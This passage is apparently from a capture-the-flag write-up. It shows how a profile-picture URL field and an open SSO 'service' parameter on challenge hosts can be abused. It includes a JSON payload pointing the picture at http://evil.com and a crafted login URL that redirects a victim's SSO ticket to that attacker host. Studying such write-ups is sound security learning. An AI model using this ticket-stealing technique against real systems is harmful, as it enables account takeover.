 The `Avatar` components translates in the end to an `img` tag, with the `src` field being the same one specified above.

If you'd try to escape the attribute by injecting various characters you'd soon discover it's impossible, because React is sanitizing it. But because the `picture` field of the `HTTP` request is included as the `src` of the image, it's possible to supply a regular HTTP URL instead of a [data URL](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs). We `POST` our changes to the configuration with the following data:

```json
{
    "name":"user",
    "picture":"http://evil.com"
}
```

And whenever we or our teacher view our profile picture, it will make a `GET` request to the URL we specified!

This doesn't sound that useful, but after closer examination of the SSO architecture you might think otherwise.

### The SSO

By reading the documentation, and sniffing the requests our client makes when logging in, it's possible to deduce the architecture of authentication using the SSO:

1. We make a `GET` request to `http://grade.chal-kalmarc.tf/login`, which redirects us to `http://sso.chal-kalmarc.tf/login?service=http://grade.chal-kalmarc.tf/login`
2. If we already have an authenticated cookie, `sso` returns a redirect to `http://grade.chal-kalmarc.tf/login&ticket=TGT-1234...`. Notice the inclusion of the ticket parameter to the URL.
3. We can't see this part as the validation happens between `grade` and the `sso`, but accroding to the documentation we can assume that `grade` makes the following request: `http://sso.chal-kalmarc.tf/validate?ticket=TGT-1234...&service=http://grade.chal-kalmarc.tf/login`. It then receives an answer if the ticket is valid for the service specified.

One interesting thing to note is that the SSO seems to be very general. That is, it was not made specifically for the `grade` website, and can be used to generate tickets for other services.

If we'll try to generate a ticket to a service in our control, lets say `http://evil.com`, we can make someone `GET` the following URL: `http://sso.chal-kalmarc.tf/login?service=http://evil.com`, and they will be redirected to `http://evil.com?ticket=TGT-1234...`:

![Generating a ticket to evil.com](img/login_evil.com.png)
